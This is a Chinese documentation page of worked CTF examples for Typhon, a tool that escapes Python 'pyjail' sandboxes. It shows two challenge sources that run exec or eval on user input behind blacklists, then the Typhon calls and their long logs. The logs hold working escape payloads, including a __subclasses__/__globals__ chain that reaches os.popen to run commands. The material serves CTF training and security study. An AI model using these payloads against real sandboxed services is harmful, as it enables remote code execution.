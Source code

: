 EXAMPLE 示例
============

此页用于提供关于 ``Typhon`` 的一些实战例题。

PwnyCTF-Pyjail 2
-------------------

题目链接： https://ctf.sigpwny.com/challenges#Vault/Pyjail%202-633

.. code-block:: python
    :linenos:
    :emphasize-lines: 3,26

    #!/usr/bin/env python3

    #Flag is at /flag.txt

    def is_bad(user_input):
        banned = '"*\'`x'

        for c in banned:
            if c in user_input:
                return True
        
        return False


    def main():

        print("You wake up in the jail gym. Your head is still sore from the bonk.")

        user_input = input('What do you have to say for yourself? ')

        if is_bad(user_input):
            print('Sorry, not good enough. Go back to jail.')
            return
        
        try:
            exec(user_input)
            print("Ok, we'll consider it.")
        except:
            print('Sorry, not good enough. Go back to jail.')


    if __name__ == '__main__':
        main()

flag位于 ``/flag.txt`` 文件中。

注意到第25行存在执行函数： ``exec(user_input)``。同时，此题目的WAF有且仅有 ``is_bad()`` 函数，其功能为检测用户输入是否包含 ``"``、 ``'``、 ``*``、  `````、 ``x``。

此处我们将执行行删去，换为对应的命令。

我们将 ``main()`` 函数改为：

.. code-block:: python
    :linenos:
    :emphasize-lines: 12,13

    def main():

        print("You wake up in the jail gym. Your head is still sore from the bonk.")

        user_input = input('What do you have to say for yourself? ')

        if is_bad(user_input):
            print('Sorry, not good enough. Go back to jail.')
            return
        
        try:
            import Typhon
            Typhon.bypassRCE('cat /flag.txt', banned_chr = '"*\'`x')
            print("Ok, we'll consider it.")
        except:
            print('Sorry, not good enough. Go back to jail.')

运行，随意输入使得控制流进入 ``Typhon.bypassRCE()`` 函数，即可得到flag（在 ``input()`` 时直接回车即可）。

.. code-block::

    You wake up in the jail gym. Your head is still sore from the bonk.
    What do you have to say for yourself?

        .-')          _                 Typhon: a pyjail bypassing tool
       (`_^ (    .----`/
        ` )  \_/`   __/     __,    [Typhon Version]: v1.0.10
        __{   |`  __/      /_/     [Python Version]: v3.13.4
       / _{    \__/ '--.  //       [Github]: https://github.com/Team-intN18-SoybeanSeclab/Typhon
       \_> \_\  >__/    \((        [Author]: LamentXU <lamentxu644@gmail.com>
            _/ /` _\_   |))

    WARNING [!] banned_chr should be a list, converting to list for compatibility.
    WARNING [!] local scope not specified, using the global scope.
    INFO [*] 7 paths found to directly getshell. Try to bypass blacklist with them. Please be paitent.
    Bypassing (7/7): [===============================================================================>] 100.0%
    INFO [+] directly getshell success. 49 payload(s) in total.
    INFO [+] You now can use this payload to getshell directly with proper input.




    -----------Progress-----------


    directly input bypass(49 payloads found): help()


    -----------Progress-----------


    +++++++++++Jail broken+++++++++++


    help()


    +++++++++++Jail broken+++++++++++

此时，我们再远程环境中输入 ``help()`` 再利用 `相应的技术 <https://typhonbreaker.readthedocs.io/zh-cn/latest/FAQ.html#id1>`_ 进行绕过即可 。

Typhon-Sample Pyjail 1 
----------------------

本题目由此文档编写。

..code-block:: python
    :linenos:
    :emphasize-lines: 1,23,36

        # flag in env
        WELCOME = '''
        _     ______      _                              _       _ _ 
        | |   |  ____|    (_)                            | |     (_) |
        | |__ | |__   __ _ _ _ __  _ __   ___ _ __       | | __ _ _| |
        | '_ \|  __| / _` | | '_ \| '_ \ / _ \ '__|  _   | |/ _` | | |·
        | |_) | |___| (_| | | | | | | | |  __/ |    | |__| | (_| | | |
        |_.__/|______\__, |_|_| |_|_| |_|\___|_|     \____/ \__,_|_|_|
                    __/ |                                           
                    |___/                                            
        '''
        import string

        print(WELCOME)

        print("Welcome to the python jail")
        print("Let's have an beginner jail of calc")
        print("Enter your expression and I will evaluate it for you.")
        if __name__ == '__main__':
            while True:
                try:
                    suc = True
                    cmd = input("Enter command: ")
                    blacklist = ['__loader__','__import__','os','\\x','+','join', '"', "'",'2','3','4','5','6','7','8','9','subprocess','[',']','sys',
                                        'pty','uuid','future','codecs','io','multi']
                    for i in blacklist:
                        if i in cmd:
                            print("Command not allowed")
                            suc = False
                            break
                    for i in cmd:
                        if i not in string.printable:
                            print("Command not allowed")
                            suc = False
                            break
                    if suc:
                        print(eval(cmd, {'__builtins__':None, 'st':str}))
                except KeyboardInterrupt:
                    break
                except Exception as e:
                    print(f'e ==> {e}')
                    pass

可以看到该题目有如下限制：
- 禁止使用 ``__loader__``、 ``__import__``、 ``os``、 ``\\x``、 ``+``、 ``join``、 ``"``、 ``'``、 ``2``、 ``3``、 ``4``、 ``5``、 ``6``、 ``7``、 ``8``、 ``9``、 ``subprocess``、 ``[``、 ``]``、 ``sys``、 ``pty``、 ``uuid``、 ``future``、 ``codecs``、 ``io``、 ``multi`` 等关键字。
- 禁止使用除 ``printable`` 字符集以外的字符。
- 命名空间为 ``{'__builtins__':None, 'st':str}`` 函数。

我们可以利用 ``Typhon`` 库中的 ``bypassRCE()`` 函数绕过限制。由于flag在环境中，我们执行 ``env`` 即可得到flag。

..code-block:: python
    :linenos:
    :emphasize-lines: 23,36

        import Typhon
        Typhon.bypassRCE(
            'env',
            local_scope = {'__builtins__':None, 'st':str},
            banned_chr = ['__loader__','__import__','os','\\x','+','join', '"', "'",'2','3','4','5','6','7','8','9','subprocess','[',']','sys',
                                        'pty','uuid','future','codecs','io','multi']
            )

.. tips::

    此处由于已经指定了命名空间，我们可以不在源代码上做修改，直接另起一个脚本调用 ``Typhon.bypassRCE()`` 函数。但当题目没有指定命名空间时（即没有 ``local_scope`` 参数时），我们需要在源代码中调用 ``Typhon.bypassRCE()`` 函数。
    假如你不确定的话，也可以只在源代码中调用。

执行上述代码，即可得到payload。

.. note:: 
    对于复杂度较高的题目，可能需要等候较长时间。

.. code-block::

        .-')          _                 Typhon: a pyjail bypassing tool
       (`_^ (    .----`/
        ` )  \_/`   __/     __,    [Typhon Version]: v1.0.10
        __{   |`  __/      /_/     [Python Version]: v3.9.0
       / _{    \__/ '--.  //       [Github]: https://github.com/Team-intN18-SoybeanSeclab/Typhon
       \_> \_\  >__/    \((        [Author]: LamentXU <lamentxu644@gmail.com>
            _/ /` _\_   |))

    INFO [-] no paths found to directly getshell.
    INFO [*] Try to get string literals from docstrings.
    Bypassing (421/421): [===============================================================================>] 100.0%
    INFO [*] Try to get string literals from __name__.
    Bypassing (3/3): [===============================================================================>] 100.0%
    INFO [*] string literals found: {'s': 'st.__doc__.__getitem__(0)', 't': 'st.__doc__.__getitem__(1)', 'r': 'st.__doc__.__getitem__(0b10)', 'o': 'st.__doc__.__getitem__(0b100)', 'b': 'st.__doc__.__getitem__(0b101)', 'j': 'st.__doc__.__getitem__(0b110)', 'e': 'st.__doc__.__getitem__(0b111)', 'c': 'st.__doc__.__getitem__(0b1000)', 'y': 'st.__doc__.__getitem__(0b11011)', 'u': 'st.__doc__.__getitem__(0b100100)', 'f': 'st.__doc__.__getitem__(0b100101)', 'n': 'st.__doc__.__getitem__(0b101101)', 'd': 'st.__doc__.__getitem__(0b110000)', 'i': 'st.__doc__.__getitem__(0b110001)', 'g': 'st.__doc__.__getitem__(0b110011)', 'C': 'st.__doc__.__getitem__(0b1001001)', 'a': 'st.__doc__.__getitem__(0b1001100)', 'w': 'st.__doc__.__getitem__(0b1010100)', 'm': 'st.__doc__.__getitem__(0b1100111)', 'h': 'st.__doc__.__getitem__(0b1101010)', 'v': 'st.__doc__.__getitem__(111)', 'I': 'st.__doc__.__getitem__(0b1111011)', 'p': 'st.__doc__.__getitem__(0b10010101)', 'x': 'st.__doc__.__getitem__(0b10110101)', 'l': 'st.__doc__.__getitem__(0b11010000)', 'O': 'st.__doc__.__getitem__(0b100001010)'}
    INFO [*] int literals found: {'0': '0', '1': '1'}
    INFO [-] no paths found to directly getshell.
    INFO [*] 3 paths found to obtain generator. Try to bypass blacklist with them. Please be paitent.
    Bypassing (3/3): [===============================================================================>] 100.0%
    INFO [+] Success. 3 payload(s) in total.
    INFO [*] Using (a for a in ()).gi_frame as payload of generator
    INFO [*] 2 paths found to obtain type. Try to bypass blacklist with them. Please be paitent.
    Bypassing (2/2): [===============================================================================>] 100.0%
    INFO [+] Success. 2 payload(s) in total.
    INFO [*] Using st.__class__ as payload of type
    INFO [*] 6 paths found to obtain object. Try to bypass blacklist with them. Please be paitent.
    Bypassing (6/6): [===============================================================================>] 100.0%
    INFO [+] Success. 5 payload(s) in total.
    INFO [*] Using ().__class__.__mro__.__getitem__(1) as payload of object
    INFO [*] 3 paths found to obtain bytes. Try to bypass blacklist with them. Please be paitent.
    Bypassing (3/3): [===============================================================================>] 100.0%
    INFO [+] Success. 2 payload(s) in total.
    INFO [*] Using st.__class__(st().encode()) as payload of bytes
    INFO [*] __builtins__ in this namespace is deleted, no way to restore it.
    INFO [*] try to find __builtins__ in other namespaces.
    INFO [*] 5 paths found to restore builtins in other namespaces. Try to bypass blacklist with them. Please be paitent.
    Bypassing (5/5): [===============================================================================>] 100.0%
    INFO [-] no way to find a bypass method to restore builtins in other namespaces.
    INFO [*] Trying to find inheritance chains.
    Bypassing (206/206): [===============================================================================>] 100.0%
    INFO [+] Found inheritance chain: ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0b101).__add__(st.__doc__.__getitem__(0b100100)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b11010000)).__add__(st.__doc__.__getitem__(1)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0))) -> builtins
    INFO [+] Found inheritance chain: ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))) -> sys
    INFO [*] 2 paths found to obtain import. Try to bypass blacklist with them. Please be paitent.
    Bypassing (2/2): [===============================================================================>] 100.0%
    INFO [-] no way to bypass blacklist to obtain import.
    INFO [*] 2 paths found to obtain load_module. Try to bypass blacklist with them. Please be paitent.
    Bypassing (2/2): [===============================================================================>] 100.0%
    INFO [-] no way to bypass blacklist to obtain load_module.
    INFO [-] no paths found to obtain modules.
    INFO [*] 4 paths found to obtain import. Try to bypass blacklist with them. Please be paitent.
    Bypassing (4/4): [===============================================================================>] 100.0%
    INFO [-] no way to bypass blacklist to obtain import.
    INFO [*] 4 paths found to obtain load_module. Try to bypass blacklist with them. Please be paitent.
    Bypassing (4/4): [===============================================================================>] 100.0%
    INFO [-] no way to bypass blacklist to obtain load_module.
    INFO [*] 1 paths found to obtain modules. Try to bypass blacklist with them. Please be paitent.
    Bypassing (1/1): [===============================================================================>] 100.0%
    INFO [+] Success. 1 payload(s) in total.
    INFO [*] Using ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules as payload of modules
    INFO [*] try to import modules with MODULES path.
    Bypassing (20/20): [===============================================================================>] 100.0%
    INFO [*] modules we have found:
    INFO {'builtins': <module 'builtins' (built-in)>, 'sys': <module 'sys' (built-in)>, 'os': <module 'os' from 'C:\\Users\\admin\\AppData\\Local\\Programs\\Python\\Python39\\lib\\os.py'>, 'codecs': <module 'codecs' from 'C:\\Users\\admin\\AppData\\Local\\Programs\\Python\\Python39\\lib\\codecs.py'>, 'warnings': <module 'warnings' from 'C:\\Users\\admin\\AppData\\Local\\Programs\\Python\\Python39\\lib\\warnings.py'>, 'importlib': <module 'importlib' from 'C:\\Users\\admin\\AppData\\Local\\Programs\\Python\\Python39\\lib\\importlib\\__init__.py'>, 'reprlib': <module 'reprlib' from 'C:\\Users\\admin\\AppData\\Local\\Programs\\Python\\Python39\\lib\\reprlib.py'>, 'linecache': <module 'linecache' from 'C:\\Users\\admin\\AppData\\Local\\Programs\\Python\\Python39\\lib\\linecache.py'>, 'io': <module 'io' from 'C:\\Users\\admin\\AppData\\Local\\Programs\\Python\\Python39\\lib\\io.py'>}
    INFO [-] no paths found to obtain exec.
    INFO [+] Using env as the command to execute.
    INFO [*] 10 paths found to obtain __import__2RCE. Try to bypass blacklist with them. Please be paitent.
    Bypassing (10/10): [===============================================================================>] 100.0%
    INFO [+] Success. 1 payload(s) in total.
    INFO [*] Using ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b100).__add__(st.__doc__.__getitem__(0))).popen(st.__doc__.__getitem__(0b111).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(111))).read() as payload of __import__2RCE


    WARNING [!] index 0 of st.__doc__[0] must match the string literal s.
    WARNING [!] index 4 of st.__doc__[4] must match the string literal o.
    WARNING [!] index 7 of st.__doc__[7] must match the string literal e.
    WARNING [!] index 27 of st.__doc__[27] must match the string literal y.
    WARNING [!] index 45 of st.__doc__[45] must match the string literal n.
    WARNING [!] index 111 of st.__doc__[111] must match the string literal v.
    WARNING [!] 110 is the index of StreamReaderWriter, path to sys must fit in index of StreamReaderWriter.
    WARNING [!] index 1 of st.__doc__[1] must match the string literal t.
    WARNING [!] index 5 of st.__doc__[5] must match the string literal b.
    WARNING [!] index 36 of st.__doc__[36] must match the string literal u.
    WARNING [!] index 49 of st.__doc__[49] must match the string literal i.
    WARNING [!] index 208 of st.__doc__[208] must match the string literal l.
    WARNING [!] 110 is the index of StreamReaderWriter, path to builtins must fit in index of StreamReaderWriter.
    WARNING [!] index 8 of st.__doc__[8] must match the string literal c.
    WARNING [!] index 48 of st.__doc__[48] must match the string literal d.
    WARNING [!] index 2 of st.__doc__[2] must match the string literal r.
    WARNING [!] index 51 of st.__doc__[51] must match the string literal g.
    WARNING [!] index 76 of st.__doc__[76] must match the string literal a.
    WARNING [!] index 84 of st.__doc__[84] must match the string literal w.
    WARNING [!] index 103 of st.__doc__[103] must match the string literal m.
    WARNING [!] index 149 of st.__doc__[149] must match the string literal p.
    WARNING [!] index 106 of st.__doc__[106] must match the string literal h.


    -----------Progress-----------


    directly input bypass(0 payload found): None
    generator(3 payloads found): (a for a in ()).gi_frame
    type(2 payloads found): st.__class__
    object(5 payloads found): ().__class__.__mro__.__getitem__(1)
    bytes(2 payloads found): st.__class__(st().encode())
    import(0 payload found): None
    load_module(0 payload found): None
    modules(1 payload found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules
    builtins(3 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0b101).__add__(st.__doc__.__getitem__(0b100100)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b11010000)).__add__(st.__doc__.__getitem__(1)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0)))
    sys(3 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0)))
    os(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b100).__add__(st.__doc__.__getitem__(0)))
    codecs(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b1000).__add__(st.__doc__.__getitem__(0b100)).__add__(st.__doc__.__getitem__(0b110000)).__add__(st.__doc__.__getitem__(0b111)).__add__(st.__doc__.__getitem__(0b1000)).__add__(st.__doc__.__getitem__(0)))
    warnings(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b1010100).__add__(st.__doc__.__getitem__(0b1001100)).__add__(st.__doc__.__getitem__(0b10)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0b110011)).__add__(st.__doc__.__getitem__(0)))
    importlib(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b110001).__add__(st.__doc__.__getitem__(0b1100111)).__add__(st.__doc__.__getitem__(0b10010101)).__add__(st.__doc__.__getitem__(0b100)).__add__(st.__doc__.__getitem__(0b10)).__add__(st.__doc__.__getitem__(1)).__add__(st.__doc__.__getitem__(0b11010000)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101)))
    reprlib(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b10).__add__(st.__doc__.__getitem__(0b111)).__add__(st.__doc__.__getitem__(0b10010101)).__add__(st.__doc__.__getitem__(0b10)).__add__(st.__doc__.__getitem__(0b11010000)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101)))
    linecache(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b11010000).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0b111)).__add__(st.__doc__.__getitem__(0b1000)).__add__(st.__doc__.__getitem__(0b1001100)).__add__(st.__doc__.__getitem__(0b1000)).__add__(st.__doc__.__getitem__(0b1101010)).__add__(st.__doc__.__getitem__(0b111)))
    io(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b110001).__add__(st.__doc__.__getitem__(0b100)))
    exec(0 payload found): None
    __import__2RCE(1 payload found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b100).__add__(st.__doc__.__getitem__(0))).popen(st.__doc__.__getitem__(0b111).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(111))).read()


    -----------Progress-----------


    +++++++++++Jail broken+++++++++++


    ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b100).__add__(st.__doc__.__getitem__(0))).popen(st.__doc__.__getitem__(0b111).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(111))).read()
    Reminder: index 0 of st.__doc__[0] must match the string literal s.
    Reminder: index 4 of st.__doc__[4] must match the string literal o.
    Reminder: index 7 of st.__doc__[7] must match the string literal e.
    Reminder: index 27 of st.__doc__[27] must match the string literal y.
    Reminder: index 45 of st.__doc__[45] must match the string literal n.
    Reminder: index 111 of st.__doc__[111] must match the string literal v.
    Reminder: 110 is the index of StreamReaderWriter, path to sys must fit in index of StreamReaderWriter

根据 ``reminder`` 信息稍微调整payload即可利用 ``().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b100).__add__(st.__doc__.__getitem__(0))).popen(st.__doc__.__getitem__(0b111).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(111))).read()`` 得到flag。